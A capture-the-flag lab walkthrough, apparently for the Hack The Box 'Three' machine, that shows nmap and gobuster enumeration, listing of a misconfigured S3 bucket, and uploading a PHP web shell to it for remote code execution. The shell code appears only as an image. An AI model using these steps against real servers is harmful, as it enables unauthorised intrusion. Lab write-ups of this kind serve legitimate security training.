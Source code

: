 # THREE

STARTING POINT - TIER 1

## Enumeration

**Nmap scan**

```bash
nmap -sC -sV 10.129.27.230
```

![nmap](pics/nmap.png)

## Exploitation

**Config hosts**

```bash
nano /etc/hosts
```

![host](pics/host.png)

**Sub-domain scanning**

```bash
gobuster vhost -u http://thetoppers.htb -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```

![gobuster](pics/gobuster.png)

**Add new host**

![host1](pics/host1.png)

**Using `awscli` to connect to the aws server**

```bash
aws s3 ls --endpoint-url=http://s3.thetoppers.htb s3://thetoppers.htb
```

![aws](pics/aws.png)

- You must be configured the awscli `aws configure`.

**Create a PHP shell**

![shell](pics/shell.png)

**Add PHP shell to the aws serer**

```bash
aws s3 cp --endpoint-url=http://s3.thetoppers.htb shell.php  s3://thetoppers.htb
```

![aws1](pics/aws1.png)

**RCE**

![rce](pics/rce.png)
